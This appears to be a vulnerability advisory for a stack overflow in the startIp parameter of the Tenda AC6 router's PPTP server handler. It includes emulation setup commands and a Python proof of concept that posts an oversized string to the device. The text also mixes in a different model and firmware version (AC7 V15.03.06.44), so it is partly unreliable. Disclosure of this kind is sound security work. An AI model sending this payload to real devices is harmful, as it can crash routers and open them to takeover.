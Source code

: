 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![image](https://github.com/user-attachments/assets/9dd2dd44-e173-4d40-87f2-8e167129aaae)


### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details
Tenda ac6 V15.03.05.16 Stack overflow is found in the startip parameter in the function SetPPTPServer. You can build payload for remote command execution
![image](https://github.com/user-attachments/assets/27c1c05c-0b31-4ebf-91a1-7e339f3722d2)

A buffer overflow vulnerability exists in the formSetPPTPServer function of tenda AC7 V15.03.06.44. The vulnerability could allow an attacker to exploit malicious input to overwrite other important data in memory, potentially causing the device to crash or execute arbitrary code.

###poc
```
import requests

url = "http://192.168.142.100/goform/SetPptpServerCfg"

data = {
    "endIp": "192.168.142.100",  
    "startIp": "raining"*0x200
}

response = requests.post(url,  data=data)

print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")
```
![image](https://github.com/user-attachments/assets/a99dd684-a13e-45e4-8791-6b205aa60d19)
